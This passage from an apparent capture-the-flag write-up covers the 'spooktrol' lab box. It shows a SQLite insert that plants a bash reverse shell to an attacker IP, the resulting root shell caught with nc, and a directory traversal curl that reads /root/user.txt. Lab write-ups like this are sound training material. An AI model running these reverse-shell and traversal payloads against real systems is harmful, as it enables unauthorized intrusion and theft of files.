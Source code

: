 
Now I’ll just add my own:

    
    
    sqlite> INSERT INTO tasks VALUES(5,'10a6dd5dde6094059db4d23d7710ae12',0,1,'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"','','');
    

I gave it id 5, since 4 was the last used. The session is the one on
spookytrol. The status is 0 for incomplete. The type is 1, for execution, and
the command is a reverse shell.

After a minute or so, at a waiting `nc`:

    
    
    oxdf@parrot$ nc -lnvp 443
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.11.123.
    Ncat: Connection from 10.10.11.123:58172.
    bash: cannot set terminal process group (16277): Inappropriate ioctl for device
    bash: no job control in this shell
    root@spooktrol:~# 
    

Terminal upgrade:

    
    
    root@spooktrol:~# script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    root@spooktrol:~# ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    root@spooktrol:~# 
    

And grab `root.txt`:

    
    
    root@spooktrol:~# cat root.txt
    92a2a92d************************
    

## Beyond Root - Directory Traversal

The `/file_management/` endpoint has a directory traversal bug in it. Knowing
what the box looks like, I can actually just read `/root/user.txt`:

    
    
    oxdf@parrot$ curl http://10.10.11.123/file_management/?file=../../../../root/user.txt
    d197bc88************************
    